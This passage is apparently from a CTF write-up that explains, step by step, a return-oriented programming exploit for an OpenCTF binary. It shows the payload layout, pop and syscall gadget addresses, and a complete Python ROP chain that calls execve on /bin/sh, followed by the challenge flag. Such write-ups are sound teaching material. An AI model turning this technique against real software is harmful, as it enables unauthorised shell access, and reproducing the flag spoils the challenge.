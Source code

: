 We have lots of gadgets to play with, but the easiest gadgets for writing arbitrary data to registers is the pop instruction.  This allows us to simply place the desired values directly on the stack.  However, I now begin to ask myself, how am I going to get a hardcoded address pointing to `/bin/sh\x00`?  Well, that's when I noticed when debugging the vuln function, that the rdi register was already pointing to the beginning of my payload padding.  So let's just put '/bin/sh\x00' at the beginning before the padding.  And while I'm at it, I also go ahead and add a 64-bit 0x00 value after the `/bin/sh\x00` string.  Additionally, I also realized that the payload is also stored in a hard-coded location in the .bss section, not just on the stack.  So below is what my payload looks like now:

```python
payload = ''
payload += '/bin/sh\x00'
payload += p64(0x00)
payload += 'A'*(88-len(payload))
```

And memory locations:

```python
0x631080: '/bin/sh\x00'
0x631088: '\x00\x00\x00\x00\x00\x00\x00\x00'
```

And as I mentioned above, `rdi` is already pointing to the beginning of my payload, which is now `/bin/sh\x00`.  So we need a gadget for setting the following registers, `rax`, `rsi`, and `rdx`, and of course, the syscall gadget.

The `pop` instruction will be the easiest for us, so I simply grepped the text dump for pop.  Since we decoded the instructions as x86, we'll be looking for the x86 registers.  There are duplicates, but these were the ones I happend to grab:

```
GADGETS_BASE    = 0x601080
GADGET_POP_EAX  = GADGETS_BASE + 0x7609#:    58                      pop    %eax
GADGET_POP_ESI  = GADGETS_BASE + 0x761b#:    5e                      pop    %esi
GADGET_POP_EDX  = GADGETS_BASE + 0x760f#:    5a                      pop    %edx
GADGET_SYSCALL  = GADGETS_BASE + 0x2d0f#:    0f 05                   syscall
```

Finally, we are ready to put everything together for the complete ROP chain:

```python
p = getp()

payload = ''
payload += '/bin/sh\x00'
payload += p64(0x00)
payload += 'A'*(88-len(payload))
payload += p64(GADGET_POP_EAX)
payload += p64(59)
payload += p64(GADGET_POP_ESI)
payload += p64(0x631088)
payload += p64(GADGET_POP_EDX)
payload += p64(0x631088)
payload += p64(GADGET_SYSCALL)

p.sendline(payload)
```

**Full Script Download:** [babys_first_rop_pwner.py](https://gist.github.com/aagallag/3a707b1157dac64e3eff376de9f87b52)
 
# Flag
**OpenCTF{Itz_0nly_45_c0Mpl1c4t3d_as_you_want_itTOBE}**
